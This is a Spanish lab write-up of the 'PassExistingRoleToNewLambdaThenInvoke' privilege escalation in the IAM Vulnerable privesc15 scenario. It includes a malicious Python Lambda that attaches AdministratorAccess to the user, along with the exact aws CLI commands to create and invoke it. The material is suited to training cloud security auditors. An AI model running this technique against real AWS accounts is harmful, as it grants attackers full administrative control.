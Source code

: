 # PassExistingRoleToNewLambdaThenInvoke

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc15

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc15
{% endembed %}

Un atacante con los permisos <mark style="color:green;">iam:PassRole</mark> , <mark style="color:green;">lambda:CreateFunction</mark> y <mark style="color:green;">lambda:InvokeFunction</mark> puede escalar privilegios pasando un rol de IAM existente a una nueva función de Lambda que incluye código para importar la biblioteca de AWS relevante para el lenguaje de programación de su elección, y luego usándola para realizar las acciones de su elección. Para este ejercicio se simulará que es una auditoria post autenticación (habiendo obtenido las credenciales por algún otro medio previo).

### Configuración Inicial

Usuario del laboratorio: privesc15-PassExistingRoleToNewLambdaThenInvoke-user

La cuenta de AWS debe contener un rol existente que incluya el permiso iam:AttachUserPolicy y las funciones lambda deben poder asumir este rol.

{% code title="assumeRolePolicy.json" overflow="wrap" %}
```json
{
     "Version": "2012-10-17",
     "Statement": [
         {
            "Sid": "VisualEditor0",
             "Effect": "Allow",
             "Action": "iam:AttachUserPolicy",
             "Resource": "arn:aws:iam::*:user/*"
         }
     ]
}
```
{% endcode %}

Luego las políticas asociadas al usuario deben ser las siguientes:

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption><p>Permisos mínimos para escalar privilegios </p></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.



### Explotación

#### Paso 1

En este laboratorio, se tiene que iniciar utilizando el permiso <mark style="color:green;">**lambda:Createfunction**</mark> para crear una función lambda maliciosa en Python que tendrá el código para adjuntar una política de altos privilegios al usuario inicial _privesc15_.

<pre class="language-python" data-title="code.py" data-overflow="wrap"><code class="lang-python">import boto3

def lambda_handler(event, context):
    # crea un cliente de IAM usando la biblioteca Boto3
    client = boto3.client('iam')
    
    # adjunta la política "AdministratorAccess" al usuario 
<strong>    response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user',
</strong><strong>    PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
</strong>    
    # devuelve la respuesta de la API de IAM de AWS
    return response

</code></pre>

Para subir el archivo con el permiso  <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Paso 2

Llamar la función maliciosa aprovechando el privilegio de <mark style="color:green;">**lambda:InvokeFunction**</mark> para invocar dicha función y que finalmente el usuario inicial adquiera el rol de administrador.

{% code overflow="wrap" %}
```bash
aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile privesc15
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Con estos pasos ya se habrá ejecutado la escalación de privilegios, se puede observar con el siguiente comando:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>







